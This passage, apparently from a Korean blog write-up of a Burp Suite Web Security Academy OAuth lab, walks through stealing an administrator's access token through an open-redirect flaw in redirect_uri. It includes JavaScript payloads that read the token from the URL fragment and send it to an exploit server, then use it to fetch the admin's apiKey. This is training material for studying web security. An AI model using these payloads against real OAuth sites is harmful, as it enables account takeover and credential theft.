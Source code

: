 4. 다음과 같이 exploit서버에 도달한 것을 확인하였다. URL을 보면 프래그먼트부분에 억세스 토큰이 있는 것을 볼 수 있다! 

![exploit서버에 도달한 것을 확인](/images/burp-academy-oauth-4-3.png)

5. 프래그먼트 부분을 얻어내기 위한 스크립트를 준비한다. 이 스크립트가 동작하면 해시부분의 억세스 토큰을 exploit서버로 전달해줄 것이다. 

```html
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```

6. 이 스크립트를 exploit서버에 저장한 후 다시한번 브라우저로 exploit URL을 방문해본다. 그리고 exploit서버의 억세스 로그를 확인하면 억세스 토큰이 포함된 요청이 있는 것을 확인할 수 있다.  


7. exploit을 위한 테스트가 끝났다. 관리자의 억세스 토큰을 얻어내기 위한 코드를 다음과 같이 준비한다. 
이 페이지를 방문한 유저의 URL에 억세스토큰이 없으면 억세스 토큰을 포함하도록 리다이렉트 시키고, 억세스 토큰이 있으면 해당 토큰을 포함해서 GET요청을 하도록(그래서 억세스 로그에 남기도록) 시키는 코드다.  

```html
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```


8. exploit을 실시한다. exploit서버에서 Deliver exploit to victim버튼을 누르고 억세스 로그를 확인하면 다른 IP에서 접근한 이력중에 access_token이 포함된 요청이 있는 것이 보인다. 이 것이 이 사이트 관리자의 억세스 토큰이다. 

9. 억세스 토큰으로 apiKey를 얻어낸다. apiKey를 얻어내는 /me 요청을 Burp 리피터로 보내서 Authorization: Bearer 부분의 값을 억세스 토큰으로 변경한 후 요청을 보낸다. 그러면 응답에 관리자의 apiKey가 포함되어 있는 것을 확인할 수 있다. 

![apkiKey얻어내기](/images/burp-academy-oauth-4-4.png)
